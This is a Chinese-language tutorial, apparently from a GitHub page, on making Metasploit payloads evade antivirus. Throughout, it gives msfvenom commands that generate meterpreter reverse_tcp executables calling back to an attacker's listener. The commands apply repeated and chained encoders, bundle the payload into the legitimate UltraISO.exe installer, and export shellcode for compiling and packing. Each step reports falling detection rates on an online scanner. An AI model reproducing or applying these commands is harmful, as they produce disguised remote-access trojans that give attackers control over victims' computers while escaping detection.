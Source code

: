 杀软是如何检测出恶意代码的？
特征码、启发式恶意软件检查和行为。
免杀是做什么？
对特征进行混淆，打乱代码，避免杀毒软件查杀
免杀的基本方法有哪些？
自编码处理  自捆绑+编码  多重编码   接口下载式  签名伪装式

针对杀毒软件的基本检测方法，我们可有以下几种方法实现免杀：

改变特征码
改变行为
其它

由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果

要用到的在线查毒工具virscan提供

https://www.virscan.org/

# 一、不处理payload直接生成样本进行检测

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.32 LPORT=4456 -f exe -o payload1.exe

![1645511560404](02 msf编码免杀.assets/1645511560404.png)

进行查毒有41%的杀毒软件报毒了

具体查毒链接：https://r.virscan.org/language/en/report/27ea53bab44e0a023b57c27991f02cf9

![1645511550808](02 msf编码免杀.assets/1645511550808.png)

# 二、 MSF自编码处理payload生成样本进行检测

首先我们输入   msfvenom --list encoders   查看可以用编码模块

![1645511543145](02 msf编码免杀.assets/1645511543145.png)

我们使用  x86/shikata_ga_nai 模块 免杀中使用频率最高的一个编码器

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai HOST=192.168.110.110  LPORT=4456 -f exe -o payload1.exe

进行查毒有37%的杀毒软件报毒了

![1645511533351](02 msf编码免杀.assets/1645511533351.png)

# 三、MSF自捆绑处理payload生成样本进行检测

使用msfvenom的-x参数可以指定一个可执行文件,将payload与其捆绑

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -x UltraISO.exe -f exe -o payload2.exe

![1645511525813](02 msf编码免杀.assets/1645511525813.png)

进行查毒有37%的杀毒软件报毒了

![1645511516751](02 msf编码免杀.assets/1645511516751.png)

# 四、MSF自捆绑+编码处理payload生成样本进行检测

结合第二种，第三种。编码方式我们再次生成样本

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 10 -f exe -o payload3.exe

![1645511507586](02 msf编码免杀.assets/1645511507586.png)

进行查毒有31%的杀毒软件报毒了

![1645511497457](02 msf编码免杀.assets/1645511497457.png)

那我们继续增加编码次数

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 20 -f exe -o payload4.exe

进行查毒有27%的杀毒软件报毒了!

![1645511487704](02 msf编码免杀.assets/1645511487704.png)

# 五、MSF多重编码payload生成样本进行检测

通过管道，让msfvenom用不同编码器反复编码进行混淆。使用管道让msfvenom对攻击载荷多重编码，先用shikata_ga_nai编码10次，接着来10次的alpha_upper编码，再来10次的countdown编码，最后才生成以payload5.exe为模板的可执行文件。

msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=192.168.110.110 LPORT=4456 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x UltraISO.exe -f exe -o payload5.exe

# 六、 生成Shellcode使用C语言调用

1、直接在linux中利用msf的meterpreter生成的文件以.c形式文件存储，得到机器码。命令：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -f c >c0001.c

![1645511458128](02 msf编码免杀.assets/1645511458128.png)

2、改c文件，并编译，并加壳

![1645511469800](02 msf编码免杀.assets/1645511469800.png)

随便写一个hello world

main() {
printf("hello world\n");
}

然后编译 并加壳

vmp加壳工具
